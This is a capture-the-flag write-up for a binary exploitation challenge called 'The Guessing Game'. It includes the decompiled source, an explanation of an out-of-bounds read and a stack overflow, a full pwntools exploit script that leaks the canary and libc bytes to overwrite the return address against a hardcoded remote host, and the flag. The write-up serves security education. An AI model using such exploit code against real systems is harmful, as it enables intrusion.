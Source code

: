 # The Guessing Game

## Challenge

The program prompts us to guess bytes from an array of 8 elements.
Incorrect guesses tell us whether we were low or high relative to the actual value.
Once we have guessed correctly 8 times, we are prompted to leave feedback.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Disassembly

```c
undefined8 dbg.main(void)
{
    int32_t iVar1;
    undefined8 uVar2;
    int64_t in_FS_OFFSET;
    uint8_t guess;
    int32_t index;
    undefined8 score;
    uint8_t nums [8];
    char feedback [24];
    int64_t canary;
    
    // int main();
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    dbg.init();
    score._0_4_ = 0;
    for (score._4_4_ = 0; score._4_4_ < 8; score._4_4_ = score._4_4_ + 1) {
        iVar1 = sym.imp.rand();
        nums[(int32_t)score._4_4_] = (char)iVar1 + (char)(iVar1 / 0xff);
    }
    while ((int32_t)score < 8) {
        sym.imp.printf("\nWhich number are you guessing (0-7)? ");
        sym.imp.__isoc99_scanf(0x202f, &index);
        sym.imp.printf("Enter your guess: ");
        sym.imp.__isoc99_scanf(" %hhu", &guess);
        if (guess < nums[index]) {
            sym.imp.puts("Ouch, too low!");
        } else {
            if (nums[index] < guess) {
                sym.imp.puts("Too high!");
            } else {
                score._0_4_ = (int32_t)score + 1;
                sym.imp.puts("You got it!");
            }
        }
    }
    sym.imp.getchar();
    sym.imp.printf("So, what did you think of my game? ");
    sym.imp.read(0, feedback, 0x32);
    uVar2 = 0;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar2 = sym.imp.__stack_chk_fail();
    }
    return uVar2;
}
```

## Solution

Though we are prompted to use an index of [0,7], we can guess outside this and check other stack values.

We have 8 correct guesses before we must leave feedback, and we need to leak the stack canary as well as some bytes from the libc address.

We can leak 7 bytes from the stack canary, with the last always being a null byte.
This leaves us with 1 byte for the libc address, however, this isn't enough to eliminate all guess work.

Here we have 2 options to increase the number of guesses we get.
We can leak the stack canary only, then overwrite the return address completely with the main function to give us 8 more guesses.
Alternatively, we can avoid using guesses about half the time, as there is a chance when using binary search that we can determine the value exactly without guessing it, through process of elimination.
This gives us an around 4 more guesses, which is more than enough to guess the required bytes from the libc address.

The exploit script below uses the latter approach.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 193.57.159.27 --port 59624 guess
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('guessing/guess')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '193.57.159.27'
port = int(args.PORT or 25021)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

freeleaks = 0

def leak(n):
    lowlim = 0
    highlim = 255
    global freeleaks

    while(True):

        guess = (lowlim + highlim) // 2

        if(highlim - lowlim == 2 and freeleaks == 0):
            freeleaks += 1
            return guess

        io.sendlineafter("Which number are you guessing (0-7)?", str(n))
        io.sendlineafter("Enter your guess:", str(guess))
        res = io.recvuntil("!")

        if b"low" in res:
            lowlim = guess
        elif b"high" in res:
            highlim = guess
        else:
            return guess

io = start()

canary = [
        p8(0x0),
        p8(leak(33)),
        p8(leak(34)),
        p8(leak(35)),
        p8(leak(36)),
        p8(leak(37)),
        p8(leak(38)),
        p8(leak(39)),
        ]

gadget = [
        p8(0x7e),
        p8(leak(49) - 0x70 + 0x6c),
        p8(leak(50) - 0x02 + 0x0e),
        ]

payload = flat({
    0x20-0x8: canary,
    0x20+0x8: gadget,
    })

io.sendafter("So, what did you think of my game?", payload)

io.interactive()
```

## Flag

`rarctf{4nd_th3y_s41d_gu3ss1ng_1snt_fun!!_c9cbd665}`

